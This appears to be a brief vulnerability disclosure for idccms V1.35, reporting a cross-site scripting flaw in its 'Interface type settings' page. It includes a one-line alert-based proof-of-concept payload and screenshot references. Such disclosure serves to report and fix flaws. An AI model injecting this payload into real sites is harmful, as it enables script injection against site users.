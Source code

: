 
target:http://idccms.com/
version: V1.35

There is Cross-Site Scripting (XSS)  vulnerability within the 'Interface type settings' .

![图片1](1.png)

poc:
```
 "><img src=1 onerror=alert(1)> 
```
successed

![图片](2.png)
